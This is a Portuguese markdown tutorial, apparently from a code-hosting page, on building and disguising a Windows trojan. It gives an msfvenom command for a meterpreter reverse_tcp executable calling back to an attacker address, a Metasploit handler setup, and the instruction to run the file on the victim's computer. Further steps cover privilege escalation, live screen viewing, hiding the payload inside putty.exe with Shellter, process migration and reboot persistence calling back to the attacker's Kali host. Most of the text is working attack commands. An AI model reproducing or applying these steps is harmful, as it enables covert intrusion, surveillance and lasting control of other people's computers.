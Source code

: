![CAVALO DE TROIA](https://www.holygamerz.com/images/posts/e6141a8fecd52c3d6062cfd84c6759ac-0.jpg)
## Criação do TROJAN com EXE

Criar o executável com MSFVENOM
~~~~
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.4 lport=4444 -e x86/shikata_ga_nai -f exe -o trojan
~~~~

Abrindo metasploit para esperar a conexão.
~~~~
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.2.4
exploit -j
~~~~~

Executar o TROJAN no computador da vítima.

Tentar ganhar direito elevados com:
~~~~~
getprivs
~~~~~

No meterpreter executar o comando abaixo para verificar a tela em tempo real da vítima:
~~~~~
screenshare
~~~~~

--------

## Camuflando o TROJAN

Fazer o download do putty.exe.

Instalar o shellter.
~~~~~
apt install shellter
~~~~~

Instalar o wine32.
~~~~~
apt install wine32
~~~~~
Abrir o shellter e passar o caminho do putty. Em seguida selecionar o meterpreter > reverse_tcp.

--------
## Como passar para outro processo após a invasão para evitar a perda de conexão com o cavalo de Tróia
* Criar um arquivo .mc
* Editar o arquivo inserindo: run post/windows/manage/migrate
* Entrar no multi handler > payload windows/meterpreter/reverse_tcp > show advanced
* set AutoRunScript ARQUIVO.rc

--------
## Como assegurar conexão com o sistema mesmo esse sendo desligado através de uma técnica chamada persistência + exercício
No meterpreter 
~~~~~
meterprete> run persistence -h
meterprete> run persistence -U -i 5 -p 4443 -r IP_DO_KALI
~~~~~
Trocar a porta do multi/handler para 4443 e esperar as conexões.
